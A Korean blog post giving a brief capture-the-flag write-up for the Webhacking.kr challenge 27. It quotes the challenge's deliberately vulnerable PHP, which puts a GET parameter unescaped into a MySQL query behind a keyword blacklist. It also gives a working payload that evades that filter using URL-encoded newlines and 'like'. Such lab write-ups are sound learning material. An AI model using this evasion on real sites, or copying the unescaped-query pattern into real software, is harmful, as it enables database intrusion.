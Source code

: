 ```yaml
---
layout: post
title: "Webhacking.kr 27번 문제"
description: ""
categories : development
sub_categories : ""
date: 2016-05-01
tags: [webhacking, 'webhacking.kr']
comments: true
share: true
background_image: /assets/images/posts/well-used/hacked.jpg
---
```


27번문제는 `SQL INJECTION`관련 문제입니다.

해당 문제의 소스를 보면, index.phps 가 주석처리되어있습니다.

해당 파일을 보면 아래와 같은 소스를 볼수있습니다. no라는 파라미터에 값을 1로 하면 `gest`가 출력되고 1이외 값을 대입했을때는

쿼리에러를 출려합니다. 두번째 조건의 필터링을 우회해서 쿼리문을 만들어 요청해본다.

  

0) or like 2 (`0)%0Aor%0Ano%0Alike%0A2%0A--+`)

  

  

    if($_GET[no]){if(eregi("#|union|from|challenge|select|\(|\t|/|limit|=|0x",$_GET[no])) exit("no hack");$q=@mysql_fetch_array(mysql_query("select id from challenge27_table where id='guest' and no=($_GET[no])")) or die("query error");if($q[id]=="guest") echo("guest");if($q[id]=="admin") @solve();}

![](/assets/images/posts/612/2615984C5725EB39214638.JPEG)

  

